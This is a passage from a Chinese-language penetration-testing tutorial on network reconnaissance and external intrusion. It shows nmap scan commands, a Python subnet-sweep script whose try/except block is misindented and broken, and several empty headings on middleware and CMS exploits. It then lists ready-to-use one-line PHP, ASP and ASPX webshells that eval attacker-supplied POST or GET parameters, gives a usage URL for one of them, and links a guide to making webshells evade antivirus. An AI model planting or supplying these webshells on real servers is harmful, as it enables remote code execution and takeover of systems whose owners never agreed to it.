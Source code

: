 ```
nmap -sV 192.168.0.2               //扫描主机系统版本
nmap -sS 192.168.0.2               //扫描主机常用端口
nmap -sS -p 80,445 192.168.0.2     //扫描主机部分端口
nmap -sS -p- 192.168.0.2           //扫描主机全部端口

```

Python脚本

```
import requests

for x in range(2,255): 
    url = "http://192.168.1.{}".format(x) 
    try: 
        r = requests.post(url) 
        print(url) 
        except: 
        pass

```

#### 3.2# 外部打点

##### 3.2.0 常见系统漏洞

##### 3.2.1 中间件漏洞

##### 3.2.2 集成服务环境漏洞

##### 3.2.3 CMS漏洞利用

搜集最新版本的CMS，以及对应的漏洞Poc和Exp，这里仅仅列举部分CMS：

备份文件爆破：使用7kbScan等目录扫描工具对Web系统进行爆破

##### 3.2.4 上传WebShell

常见一句话木马

```
PHP： &lt;?php @eval($_POST['pass']);?&gt;      &lt;?php eval($_GET['pass']);
Asp：   &lt;%eval request ("pass")%&gt;
Aspx：  &lt;%@ Page Language="Jscript"%&gt; &lt;%eval(Request.Item["pass"],"unsafe");%&gt;

```

Get型木马

```
&lt;?php eval($_GET['pass']);           //利用方式/shell.php?pass=eval($_POST[1]);

```

免杀马制作：[GitHub - AabyssZG/WebShell-Bypass-Guide: 从零学习Webshell免杀手册](https://github.com/AabyssZG/WebShell-Bypass-Guide)
